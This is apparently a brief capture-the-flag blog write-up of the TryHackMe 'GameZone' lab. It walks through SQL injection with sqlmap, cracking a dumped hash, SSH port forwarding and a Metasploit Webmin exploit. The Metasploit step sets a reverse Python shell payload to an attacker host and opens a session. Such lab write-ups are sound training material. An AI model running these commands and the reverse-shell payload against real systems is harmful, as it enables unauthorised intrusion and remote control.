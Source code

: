```yaml
---
layout : post 
title: GameZone

date: 2021-04-24 01:43 +0530
tags: [hashcat ,SSH PortForwording ]
---
```

# nmap

# Enumeration 

# Exploitation 
sqlinjection on port 80 

![]({{site.baseurl}}/img/tryhackme/GameZone/sqli.png)

copy the web req and save it as sql.txt to use with sql map

![]({{site.baseurl}}/img/tryhackme/GameZone/afterlogin.png)

>  sqlmap -r sql.txt --dbms=mysql --dump

![]({{site.baseurl}}/img/tryhackme/GameZone/sqlmamp.png)
```
sql table

+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
```
Cracking the hash 

![]({{site.baseurl}}/img/tryhackme/GameZone/crackstation.png)

<h3>ssh port forword</h3>

>ssh -L 10000:localhost:10000 agent47@10.10.231.199

![]({{site.baseurl}}/img/tryhackme/GameZone/service.png)

# Privilage Esclation 

![]({{site.baseurl}}/img/tryhackme/GameZone/webmin.png)

```bash
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[-] Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set lhost 10.9.202.83
lhost => 10.9.202.83
msf6 exploit(unix/webapp/webmin_show_cgi_exec) >set lport 5555
lport => 5555
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[-] Authentication failed
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set rhost localhost
rhost => localhost
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[-] Exploit failed [unreachable]: OpenSSL::SSL::SSLError SSL_connect returned=1 errno=0 state=error: wrong version number
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set SSL false 
[!] Changing the SSL option s value may require changing RPORT!
SSL => false
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Command shell session 1 opened (10.9.202.83:5555 -> 10.10.231.199:38944) at 2021-04-24 02:37:46 -0400
[*] Session 1 created in the background.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > sessions 1 
[*] Starting interaction with 1...

```